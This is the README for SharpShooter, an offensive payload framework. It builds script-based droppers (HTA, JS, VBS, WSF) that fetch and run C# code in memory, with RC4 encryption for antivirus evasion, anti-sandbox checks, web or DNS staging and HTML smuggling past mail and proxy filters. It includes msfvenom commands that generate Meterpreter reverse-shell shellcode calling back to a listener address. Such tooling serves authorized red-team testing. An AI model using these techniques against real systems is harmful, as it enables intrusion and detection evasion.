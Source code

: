 ```
   _____ __                    _____ __                __           
  / ___// /_  ____ __________ / ___// /_  ____  ____  / /____  _____
  \__ \/ __ \/ __ `/ ___/ __ \\__ \/ __ \/ __ \/ __ \/ __/ _ \/ ___/
 ___/ / / / / /_/ / /  / /_/ /__/ / / / / /_/ / /_/ / /_/  __/ /    
/____/_/ /_/\__,_/_/  / .___/____/_/ /_/\____/\____/\__/\___/_/     
                     /_/                                            

```

Description
===========

SharpShooter is a payload creation framework for the retrieval and execution of arbitrary CSharp source code.
SharpShooter is capable of creating payloads in a variety of formats, including HTA, JS, VBS and WSF. It leverages James Forshaw's [DotNetToJavaScript](https://github.com/tyranid/DotNetToJScript) tool to invoke methods from the SharpShooter DotNet serialised object. Payloads can be retrieved using Web or DNS delivery or both; SharpShooter is compatible with the MDSec ActiveBreach PowerDNS project.

SharpShooter payloads are RC4 encrypted with a random key to provide some modest anti-virus evasion, and the project includes the capability to integrate sandbox detection and environment keying to assist in evading detection.

SharpShooter includes a predefined CSharp template for executing shellcode, but any CSharp code can be compiled and invoked in memory using reflection, courtesy of CSharp's CodeDom.

Finally, SharpShooter provides the ability to bundle the payload inside an HTML file using the [Demiguise HTML smuggling](https://github.com/nccgroup/demiguise) technique.

Currently SharpShooter targets v3.5 of the .NET framework which will be found on most end-user Windows workstations, however support for v4 will be added in due course.

Further information can be found on the MDSec blog post.

Usage:
======

SharpShooter uses an interactive menu to configure and build the payload options, each of the menu prompts are described below.

```
[*] Select the type of payload to generate:
[1] HTA
[2] JS
[3] JSE
[4] VBA
[5] VBE
[6] VBS
[7] WSF
```
The above menu selects the type of payload that you want to generate. Currently VBA is only partly supported, pending further development/research. The generated payload will be written to the "output" folder.

```
[*] The following anti-sandbox techniques are available:
[1] Key to Domain
[2] Ensure Domain Joined
[3] Check for Sandbox Artifacts
[4] Check for Bad MACs
[5] Check for Debugging
[0] Done
```

SharpShooter includes the ability to embed anti-sandbox defences in to the payload, these are predominantly taken from the [CheckPlease project](https://github.com/Arvanaghi/CheckPlease) with the exception of Domain Keying which allows you to limit your payload to running only on domain members from a target domain. More than one technique can be selected and if the conditions are met, such as the host not being domain joined (2), then the payload will not execute. The theory here is that if the sandbox does not see the bad behaviour, it will assume your payload to be safe.

```
[*] Select the delivery method for the staged payload:
[1] Web Delivery
[2] PowerDNS Delivery
[3] Both
```

This menu option details the method that will be used to perform staging and whether this happens using web delivery, DNS or both. During this process, the payload will retrieve the CSharp source code from the provided URL; the source code is gzip'd and base64 encoded.

```
[*] Do you want to use the builtin shellcode template? Y/N
```

SharpShooter contains a basic template for executing shellcode, here you can paste in a CSharp byte array of either your x86 or x64 shellcode.

On 64-bit systems you must use x64 shellcode for JS/JSE, VBS/VBE and WSF payloads; you can generate it using msfvenom similar to the following:

```
msfvenom -a x64 -p windows/x64/meterpreter/reverse_http LHOST=172.16.164.203 LPORT=8080 EnableStageEncoding=True PrependMigrate=True -f csharp
```

For 32-bit or when handling HTA files, the shellcode must be x86 and can be generated as follows:

```
msfvenom -a x86 -p windows/meterpreter/reverse_http LHOST=172.16.164.203 LPORT=8080 EnableStageEncoding=True StageEncoder=x86/shikata_ga_nai -f csharp
```

When using web delivery, SharpShooter will prompt for the location where your CSharp payload is hosted:

```
[*] Provide URI for CSharp web delivery
```

Here you should provide the URL to where you've hosted the output.payload file. If you're using DNS delivery, you should provide the staging host where PowerDNS is running. It should be noted that SharpShooter will fallback to DNS delivery if web delivery fails, for example should your user not be able to make web requests in your target environment.

```
[*] Do you want to smuggle inside HTML?
```

When SharpShooter prompts as above, it offers the ability to perform a HTML smuggling attack. This will take the previously generated SharpShooter payload and embed it inside a HTML file, rc4 encrypted and retrievable via most modern browsers. This file can be useful for bypassing certain proxy restrictions such as MIME type or extension blocking, or submiting the payload via e-mail as HTML is a permitted attachment in most mail clients.
SharpShooter contains 2 pre-defined templates; it is recommended you create a custom template using these as an example.

Author and Credits
==================
Author: Dominic Chell, MDSec Activebreach [@domchell](https://twitter.com/domchell) and [@mdseclabs](https://twitter.com/mdseclabs)

Credits:
- @tiraniddo: James Forshaw for DotNetToJScript
- @Arno0x0x: for EmbedInHTML
- @buffaloverflow: Rich Warren for Demiguise
- @arvanaghi and @ChrisTruncer: Brandon Arvanaghi and Chris Truncer for CheckPlease